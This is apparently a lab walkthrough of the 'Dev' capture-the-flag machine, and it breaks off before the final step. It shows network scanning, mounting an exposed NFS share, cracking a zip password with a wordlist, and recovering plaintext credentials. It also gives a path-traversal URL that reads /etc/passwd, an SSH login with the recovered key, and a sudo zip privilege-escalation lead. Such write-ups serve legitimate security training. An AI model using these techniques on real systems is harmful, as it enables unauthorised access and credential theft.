


# Dev

IP address: 10.0.2.155

```
└─$ sudo arp-scan -l      
[sudo] password for kali: 
Interface: eth0, type: EN10MB, MAC: 08:00:27:d2:26:79, IPv4: 10.0.2.15
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.1        52:54:00:12:35:00       (Unknown: locally administered)
10.0.2.2        52:54:00:12:35:00       (Unknown: locally administered)
10.0.2.3        08:00:27:e6:9a:7b       (Unknown)
10.0.2.155      08:00:27:e8:9b:23       (Unknown)

```

Nmap Scan:
```
└─$ nmap -sC -sV 10.0.2.155
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-19 17:51 EDT
Nmap scan report for 10.0.2.155 (10.0.2.155)
Host is up (0.00025s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Bolt - Installation error
|_http-server-header: Apache/2.4.38 (Debian)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36620/udp   mountd
|   100005  1,2,3      44981/tcp   mountd
|   100005  1,2,3      48427/tcp6  mountd
|   100005  1,2,3      59086/udp6  mountd
|   100021  1,3,4      39253/tcp   nlockmgr
|   100021  1,3,4      43059/tcp6  nlockmgr
|   100021  1,3,4      47373/udp6  nlockmgr
|   100021  1,3,4      56373/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs     3-4 (RPC #100003)
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.11 seconds
```

Interesting note: 2049/tcp open  nfs     3-4 (RPC #100003)

```
└─$ showmount -e 10.0.2.155
Export list for 10.0.2.155:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

```

```
└─$ mount -t nfs 10.0.2.155:/srv/nfs /mnt/dev
mount.nfs: failed to apply fstab options

                                                                                                    
┌──(kali㉿kali)-[~]
└─$ cd /mnt/dev 
                                                                                                    
┌──(kali㉿kali)-[/mnt/dev]
└─$ ls
                                                                                                    
┌──(kali㉿kali)-[/mnt/dev]
└─$ sudo mount -t nfs 10.0.2.155:/srv/nfs /mnt/dev
                                                                                                    
┌──(kali㉿kali)-[/mnt/dev]
└─$ cd /mnt/dev                                   
                                                                                                    
┌──(kali㉿kali)-[/mnt/dev]
└─$ ls
save.zip
                                                                                                    
┌──(kali㉿kali)-[/mnt/dev]
└─$ unzip save.zip              
Archive:  save.zip
[save.zip] id_rsa password: 
   skipping: id_rsa                  incorrect password
   skipping: todo.txt                incorrect password
```

To crack the password of a zip file: fcrackzip

Command: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip


The password is java101

```
└─$ cat todo.txt 
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

```

The credentials found in a file config.yml, which was found in 80 port on the directory: http://10.0.2.155/app/config

Some useful information:
driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java

This is the web application on port 8080


Possible exploit: https://www.exploit-db.com/exploits/48411

The URL: http://10.0.2.155:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd

The output: jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash

Privilege escalation: 

```
 ssh jeanpaul@10.0.2.155 -i ./id_rsa           
Enter passphrase for key './id_rsa': 
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$ ls
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
jeanpaul@dev:~$ 

```

Here it is: 


Resource: https://gtfobins.github.io/gtfobins/zip/